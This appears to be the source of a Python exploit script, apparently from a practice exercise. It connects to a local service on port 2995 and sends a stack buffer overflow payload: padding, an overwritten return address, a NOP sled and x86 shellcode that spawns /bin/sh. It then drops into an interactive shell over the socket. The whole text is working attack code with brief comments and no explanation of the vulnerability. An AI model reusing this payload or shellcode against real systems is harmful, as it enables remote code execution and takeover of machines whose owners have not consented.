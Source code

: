 import socket
import struct
import time
import telnetlib

HOST="127.0.0.1"
PORT=2995

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

eip = struct.pack("I", 0xbffffc60+10)
nopsled = "\x90" * 100
exploit     = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = "A" * 512 + "\x00"  + "bbbccccddddeeeeffff" + eip + nopsled + "gggghhhhh" + exploit
s.send(payload + "\n") # "\n" indicates that transmission is over if not server is still waiting for more stuff
#s.send("id")
#data = s.recv(2048) # end every payload you send with "\n" if not you will not receive anything and the function will be stuck here as it is waiting for the server to respond while the server is waiting for the end of the transmission most likely indicated by "\n"
#print "Received: ", data

t = telnetlib.Telnet()
t.sock = s
t.interact()

